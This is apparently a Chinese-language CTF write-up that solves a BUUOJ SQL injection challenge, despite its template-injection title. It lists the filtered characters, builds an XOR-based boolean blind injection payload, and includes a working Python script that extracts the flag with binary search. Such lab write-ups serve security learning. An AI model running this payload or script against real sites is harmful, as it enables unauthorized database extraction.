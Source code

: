 ### Web_python_template_injection

今日adworld复活，结果还是创建不了环境，buuoj随便找个题吧

![image-20240724233204435](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240724233204435.png)



一个sql注入题，对于ctf的sql注入，一般是不要用sqlmap的心思，因为一般都解不出来

![image-20240724233332535](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240724233332535.png)

可以看到对于’的闭合构造是有检测的，并且时间盲注也没用

继续构造可以发现，如果一个错误的语句他会返回布尔错误，接着尝试，发现只有1和2时候结果不一样

其他对于‘’，空格，insert，select，union，|，*这些都被过滤了。（可以用工具字典fuzz一下

不过对于亦或^是没有过滤的，我们可以考虑布尔盲注



![image-20240724233429997](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240724233429997.png)

1的时候是Hello, glzjin wants a girlfriend

2的时候是Do you want to be my girlfriend?

···也真够下头的

那我们可以通过一个脚本构造，思路就是我们去枚举flag表中flag行的数据，构造成1或者2的结果（这样我们就可以通过返回结果来判断是否枚举成功，

我们需要选择的是1，因为通过没有被过滤的亦或可以来通过返回布尔值来判断枚举的字符是比flag当前位大还是小

我们通过substr函数的每一位枚举，通过亦或的比大小返回值得到结果

```
'0^(ascii(substr((select(flag)from(flag)),'+str(i)+',1))>'+str(n)+')'
```

1，如果枚举的比flag当前位大，判断会是0，结果返回error开头

2，如果枚举的比flag当前位小，这个比大小会是1，那么返回hello的字符串



这里的算法还需要改进一下，使用二分法，不然会导致连接超时，，，第一次用的暴力n2算法就导致了这个结果，这里借鉴了一下比人的二分法查找，从0-127查找ascii的有效字符就可以了

```python
import requests
import time

url='http://fb2e5ad2-c774-446a-8144-c03dcbb061c9.node5.buuoj.cn:81/index.php'
flag = ''
for i in range(1,43):
    max = 127
    min = 0
    for c in range(0,127):
        n = (int)((max+min)/2)
        payload = '0^(ascii(substr((select(flag)from(flag)),'+str(i)+',1))>'+str(n)+')'
        r = requests.post(url,data = {'id':payload})
        time.sleep(0.005)
        if 'Hello' in str(r.content):
            min=n
        else:
            max=n
        if((max-min)<=1):
            flag+=chr(max)
            print("\r", end="")
            print(flag,end='')
            break
```

